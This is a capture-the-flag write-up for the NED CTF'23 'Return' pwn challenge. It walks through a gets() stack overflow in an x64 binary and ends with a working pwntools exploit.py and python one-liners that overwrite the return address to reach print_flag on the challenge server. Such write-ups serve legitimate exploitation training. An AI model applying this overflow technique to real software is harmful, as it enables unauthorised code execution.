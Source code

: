 ```yaml
---
title: NED CTF'23 - Pwn - Return
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64', 'ret2win']
draft: false
summary: A simple x64 ret2win challenge.
---
```


## Challenge Description

Navigate the maze of memory and claim your prize.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9002
```

![chal-info](/static/writeups/nedctf/pwn/return0.png)

## Solution

Downloading the `return.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/return1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/return4.png)

Let's run the `return` binary to check what it does

![run](/static/writeups/nedctf/pwn/return2.png)

Okay, let's disassemble and check the functions inside ghidra

![functions](/static/writeups/nedctf/pwn/return3.png)

The disassembled main function is as follows

```c
undefined8 main(void) {
  char local_108 [256];
  
  banner();
  printf("\n\n\nMay I ask what your name is? ");
  gets(local_108);
  printf("Good luck %s!\n",local_108);
  return 0;
}
```

Well, again `gets`, and this time the buffer is `256`. The other function that is of interest is `print_flag`

```c
void print_flag(void) {
  int iVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: could not open file.");
  }
  else {
    puts("Contents of flag.txt:");
    while( true ) {
      iVar1 = fgetc(__stream);
      if ((char)iVar1 == -1) break;
      putchar((int)(char)iVar1);
    }
    fclose(__stream);
  }
  return;
}
```

Now, this function simply opens the `flag.txt` file and prints it's contents. 

### Exploitation

So, we have a buffer overflow vulnerability, and we have a function that prints the flag. We can simply overwrite the return address of the `main` function with the address of `print_flag` function. Let's check the address of `print_flag` function. For that, we'll use my [script](https://gist.github.com/TheFlash2k/198bb805b3591e27b9bf9fc17bee4c4a)

![gadgets](/static/writeups/nedctf/pwn/return6.png)

In x64, we also need to provide a `ret` gadget to ensure that the program doesn't crash. Let's check the `ret` gadget address as well. We will use [ropper](https://github.com/sashs/Ropper) for that

```bash
ropper -f return --search "ret"
```

![gadgets](/static/writeups/nedctf/pwn/return5.png)

Now, since we have both values, we can craft a simple payload, which will be as follows

```md
[padding] + [ret gadget] + [print_flag address]
```

The padding will be `256` bytes to fully-fill the buffer, the ret gadget will be next to accumlate the buffer till RIP overwrite so that the function returns successfully and the print_flag address will be stored on the RIP. Let's craft the payload. But first, we'll `p64` the value of ret gadget:

```bash
$ python3 -c 'import pwn; print(pwn.p64(0x000000000040101a))'
b'\x1a\x10@\x00\x00\x00\x00\x00'
```

So, the payload now becomes:

```bash
python -c 'print "A" * 256 + "\x1a\x10@\x00\x00\x00\x00\x00" + "\xf6\x11@\x00\x00\x00\x00\x00"' | ./return
```

![flag](/static/writeups/nedctf/pwn/return7.png)

We can see that we got the flag, let's pipe the output to `nc` to get the flag remotely

```bash
python -c 'print "A" * 256 + "\x1a\x10@\x00\x00\x00\x00\x00" + "\xf6\x11@\x00\x00\x00\x00\x00"' | nc 159.223.192.150 9002
```

![flag](/static/writeups/nedctf/pwn/return8.png)

We got the flag!

```md
Flag: NCC{r3t_2_w1ns_4r3_fuN}
```

Now, let's a write a simple `exploit.py` for this

```python:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = "./return"
elf = context.binary = ELF(_bin)
rop = ROP(elf)

if len(sys.argv) == 2 and sys.argv[1].lower() == "remote":
	io = remote('159.223.192.150', 9002)
else:
	io = process(_bin)

io.recv()

payload = flat(
	[
		b"A" * 256,
		rop.ret.address,
		elf.sym.print_flag,
		b"\n"
	]
)

io.sendline(payload)
buf = io.recv().decode('latin-1')
print(buf)
```

![flag](/static/writeups/nedctf/pwn/return9.png)
